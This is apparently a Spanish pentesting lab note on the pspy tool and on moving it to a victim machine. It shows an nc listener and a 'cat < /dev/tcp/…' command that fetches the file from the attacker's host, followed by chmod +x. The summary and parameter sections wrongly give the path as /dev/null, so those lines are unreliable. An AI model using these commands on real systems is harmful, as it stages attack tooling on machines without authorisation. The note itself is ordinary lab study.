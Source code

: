 +[Link de la herramienta pspy](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1)

# Resumen de comandos en orden

```shell
Desde nuestra maquina: nc -nlvp Puerto < NombreDelArchivo
Desde la maquina victima: cat < /dev/null/IpDeNuestraMaquina/Puerto > NombreDelArchivo
```
--------

Es una herramienta que permite **ver procesos en ejecución en tiempo real** en sistemas Linux **sin necesidad de privilegios root**.
![[pspy.png]]
Para pasarnos el pspy desde nuestra maquina a la maquina victima
```shell
Desde nuestra maquina: nc -nlvp Puerto < NombreDelArchivo
Ejemplo desde nuestra maquina: nc -nlvp 443 < pspy

Desde la maquina victima: cat < /dev/tcp/IpDeNuestraMaquina/Puerto > NombreDelArchivo
Ejemplo desde la maquina victima: cat < /dev/tcp/10.10.11.130/443 > pspy
```
Para mas informacion sobre el comando [[nc -nlvp 443]]

*Parametros comando maquina victima*
`cat` Es para ver el contenido de un archivo
`< /dev/null/IpDeNuestraMaquina/Puerto` Establece una conexion a nuestra maquina


##### Recordatorio
Una vez recibido el archivo a la maquina victima, recordar darle permisos de ejecucion
```shell
chmod +x NombreDelArchivo
Ejemplo: chmod +x pspy
```